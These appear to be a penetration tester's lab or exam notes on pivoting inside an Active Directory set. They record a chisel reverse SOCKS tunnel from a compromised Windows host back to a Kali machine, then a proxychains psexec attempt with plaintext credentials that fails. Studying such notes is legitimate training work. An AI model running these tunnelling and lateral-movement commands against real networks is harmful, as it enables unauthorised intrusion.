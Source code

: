 ```shell
ping -n 172.16.118.102
IP address must be specified.

C:\Windows\Temp>ping -n 5 172.16.118.102
ping -n 5 172.16.118.102

Pinging 172.16.118.102 with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 172.16.118.102:
    Packets: Sent = 5, Received = 0, Lost = 5 (100% loss),

C:\Windows\Temp>
```


![[ping check.png]]


```shell
# 2nd attempt at chisel
# server on linux machine
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# ./chisel_1.8.1_linux_amd64 server -p 8000 --reverse
2023/04/12 17:42:12 server: Reverse tunnelling enabled
2023/04/12 17:42:12 server: Fingerprint N2Crjighb1Ael1YKsq+Q/062CeRCl1TXNcbC8+ib7OI=
2023/04/12 17:42:12 server: Listening on http://0.0.0.0:8000

# on client 192.168.118.101
chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks

```

- I believe proxychains is setup
- going to try psexecing and xfreerdp'ing
#failed psexec
```shell
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# proxychains psexec.py Alice.Walters:'1q2w3e4r5t'@172.16.118.100
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.1.dev1+20230116.181610.efcaec35 - Copyright 2022 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.118.100:445  ...  OK
[*] Requesting shares on 172.16.118.100.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.

```
